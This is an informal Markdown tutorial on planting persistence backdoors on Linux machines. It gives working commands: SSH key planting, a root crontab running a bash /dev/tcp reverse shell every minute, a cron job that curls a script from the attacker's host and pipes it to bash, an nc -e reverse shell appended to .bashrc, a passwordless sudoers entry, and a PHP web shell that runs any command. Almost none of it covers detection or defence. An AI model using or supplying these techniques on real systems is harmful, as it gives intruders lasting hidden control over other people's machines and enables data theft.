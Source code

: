## BACKDOORS

> hi all in this writeup we gonna talk about :
1.1 what is BACKDOORS
1.2 how backdoors work 
and in other parts i will talk about cammon ways to do backdoors






1.1- what is backdoors
![image](https://miro.medium.com/max/694/0*iDWkNtnlLkwMBnVY.png)
* so the backdoors is a samething like a malware trojan or reverse shell  we do it  to get an ultimate acces to machine and allow you to get back in once your access is blocked or shutdowned 

1.2- how BACKDOORS works
* the backdoors is running in the target machine whitout stoping so the attacker can in any time get acces to the target machine this backdoors can be installed in a lot of tricks and now i will show u same tricks to do a linux backdoors
> ssh keys and backdoors![image](https://i.imgur.com/JmRkLjw.png)

* for generating ssh key we can use the command
```
ssh-keygen
```
and boom ! you have a private key and public key in the directory /root/.ssh we can rename the public key and login whit him ads a root 
but after this we need to give this key a ``chmod 600`` permission and at least login whit this key using this command ``"ssh -i (the key you have been generated ] root@ip``
* and another way to do backdoor you can chnage a user password using this command ``passwd``
***cron jobs***
* first what is cronjob 
![image](https://www.cyberciti.biz/media/new/faq/2009/07/Linux-view-all-cron-jobs-command.png)
> a cronjob is a file or payload or command which run at time that you choose 

* how we can gain acces to machine with cronjob. it's easy just we need to do a reverseshell in a crontab and let him run everyminute
```
$: crontab -e root
```
and after doing acronjob whit root user we just need to add our reverseshell
``` 
*     *     *     *     *        bash -i >& /dev/tcp/(our ip)/(our port ) 0>&1


```

this crontab will run ervery minute so in any time you need another acces to the target machine just setup your listener in the port you choose and wait for your root shell
or do this 
```

* *     * * *   root    curl http://<yourip>:port from your choose/shell | bash


```
and put a backdoorsqh reverse shell in the shell file like this
```
#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1
```
* .bashrc 
![image](http://www.poftut.com/wp-content/uploads/2017/07/img_595dcb4e3984a.png)
* A bashrc file is shell script that Bash runs whenever it is started
> If a user has bash as their login shell, .bashrc file in their home directory is executed when an interactive session is launched. One can add a reverse shell to the user’s .bashrc and get a shell when the user is login
* let's try this
```
echo 'nc -e /bin/bash <your ip> <PORT> 2>/dev/null &' >> ~/.bashrc


```
and don't forget to let your listener on so gain acces when the bash running

* Services
> if you can wait until the machine is restarted you can add a reverse shell in a service that run in the startup of the machine
*  sudoers
if you have a root but you want to elevate you privilage whit an easy way when you get acces you can just edit the file /etc/sudoers but you need to be root and put this 

```
<USER from machine users that you know her password or you have already acces to>        ALL=(ALL)        NOPASSWD: ALL


```
* php backdoors
as we know anything we put in var/www/html we can browse it whit our browser so we can do a small php page that allow us to execute any command we want so let's do it
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>

```
so using the parametre cmd we can execute any command we want 
* if you putted the file directly in var/www/html you can browse it whit this link
http://ip/command.php
and for executing the command we use this http://ip/command.php?cmd=any command